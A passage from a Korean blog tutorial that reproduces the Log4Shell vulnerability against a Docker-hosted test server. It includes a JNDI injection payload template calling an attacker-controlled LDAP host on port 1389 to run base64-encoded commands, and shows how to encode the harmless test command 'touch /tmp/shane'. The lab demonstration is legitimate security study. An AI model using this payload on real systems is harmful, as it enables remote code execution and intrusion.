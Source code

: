 ### 취약 서버

docker를 통해 가상환경에 구동 했습니다. 로컬에서 취약점을 노출시키기에는 리스크가 크기 때문에 주의해야 합니다.

실제로 집에서 서버를 운영해 보면, 보통 쉽게 생각하는 것보다 훨~~~씬 많은 공격 시도가 매일 매일 감지 됩니다. 이 테스트를 진행하는 잠깐 동안에도 외부 포트를 열어둔 인스턴스에는 엉뚱한 ip로부터의 요청들이 몇몇 감지 되었습니다.

![vulnerable](https://raw.githubusercontent.com/Shane-Park/mdblog/main/news/log4shell.assets/vulnerable.png)

### 공격

이번에 사용할 공격 코드 형식은 아래와 같습니다.

```zsh
${jndi:ldap://공격아이피:1389/Basic/Command/Base64/실행할 명령을 Base64로 인코딩한 메시지}
```

이번에 취약 서버에서 실행 할 명령은 `touch /tmp/shane` 입니다.

base64 인코더는 따로 준비 할 필요 없이 Terminal에서 아래의 명령으로 간단하게 이용 할 수 있습니다.

```zsh
 echo -n 'touch /tmp/shane' | base64
```
